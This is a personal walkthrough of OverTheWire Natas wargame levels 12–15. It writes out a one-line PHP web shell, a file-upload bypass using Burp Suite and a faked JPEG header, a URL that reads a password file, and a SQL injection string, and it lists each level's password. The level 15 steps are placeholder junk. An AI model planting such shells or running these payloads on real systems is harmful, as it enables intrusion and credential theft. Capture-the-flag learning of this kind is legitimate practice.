 7. I created a new file called "natas13.php" and inside of it, my payload `<?php passthru($_GET['cmd']); php?>`
8. I then booted up Burp Suite and launched the browser and navigated back to the room. 
9. I turned "Intercept" on and uploaded the file. 
10. When intercepting the POST request, I see that the function from the website renames the file to the random string + .jpg. I change the jpg extension to .php so that the file gets uploaded as a php file. 
11. I forward the request on and it accepts it!
12. I turn "Intercept" off and click the provided link that takes me to the file.
13. Once there, I get an error on the page "Warning: Use of undefined constant php - assumed 'php' (this will throw an Error in a future version of PHP) in /var/www/natas/natas12/upload/jdffiixesd.php on line 1". this is GOOD!
14. In the URL, I pass the command that I want injected by using the following URL `http://natas12.natas.labs.overthewire.org/upload/jdffiixesd.php?cmd=cat%20/etc/natas_webpass/natas13`
15. This executes and returns the password! `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`

Level 13:
1. Upon Logging in, I am presented with the same room, but with an added note at the top: "For security reasons, we now only accept image files!"
2. After looking at the new source code and seeing how the website was now checking for file extensions, I noticed that it was looking at exif data in one of the functions. My assumption is that I would have to edit this somehow. 
3. I did some digging around but I couldn't quite find what I was looking for. I cheated a bit and looked up a guide and realized that I should have looked at one the function itself actually does. It checks the header of the hex data of an image and looks for a string of bytes that would be found on a .jpg file
4. I download Gnome Hex and start crafting a new file. I originally made a jpg file in Krita, but they were all coming out massive because Krita throws a bunch of info in the exif. So i just copied the header of a jpg file onto a brand new txt file that I created and then added the php code a little after the header. It was the same code as before: `<?php passthru($_GET['cmd']); php?>`
5. With this code now injected into the file via the hex data, and with the .jpg extension validated by the exif header, I uploaded it to the server...
6. Success! After uploading, I went back into the POST entry in Burp Suite, renamed the file to use the .php extension and resent it. 
7. After that, just like the last level, I put the command code in the URL and cat'd out natas14
8. `z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`

Level 14:
1. I log in and see... a login. I view the source code and see that this is checking a SQL database for the username and password
2. *SNIIIIFFFFF* Ah yes... good ol' SQL injection
3. I tried "admin, admin" just in case it was a test for that. Denied. 
4. Okay so time to try some common SQL injections. I pulled up a list of basic ones from W3 Schools and eventually `" OR ""="` was the one that worked. 
5. `SdqIqBsFcz3yotlNYErZSZwblkm0lrvx`

Level 15:

1. sdf
2. sd
3. fs
4. df
5. 
6. hPkjKYviLQctEW33QmuXL6eDVfMW4sGo